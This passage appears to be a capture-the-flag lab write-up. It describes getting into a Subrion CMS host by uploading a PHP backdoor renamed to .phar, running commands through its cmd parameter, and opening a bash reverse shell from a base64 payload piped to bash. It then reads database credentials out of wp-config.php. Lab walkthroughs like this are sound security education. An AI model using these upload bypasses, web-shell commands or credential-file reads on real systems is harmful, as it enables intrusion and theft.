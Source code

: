 supplying the credentials found (admin:Scam2021) and crack a successfull login is made.
after logging in we can see a upload functionality 


## Inital Access

![upload folder](./screenshots/uploadfolder.png)

When uploading a php file it can  be accesss in the upload folder but as seen php is inaccessable so tryig to bypass this by uploading the backdoor php file with different extension like php5,phar shows phar files is accepted  *http://10.10.38.152/subrion/uploads/backdoor.phar?cmd=whoami*

![backdoor ](./screenshots/whoami.png)

So we can now get a reverse shell via our backdoor, in this instance a bash reverseshell is used by base64 encoding it and pipeing i over to bash calling this url
```
http://10.10.38.152/subrion/uploads/backdoor.phar?cmd=echo%20%27 BASE64Shell  %27%20|%20base64%20-d%20|%20bash
```


## Privilege escalation

After som searching, a username and password was found in /var/www/html/wordpress/wp-config.php

```
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wpdb' );

/** MySQL database username */
define( 'DB_USER', 'support' );

```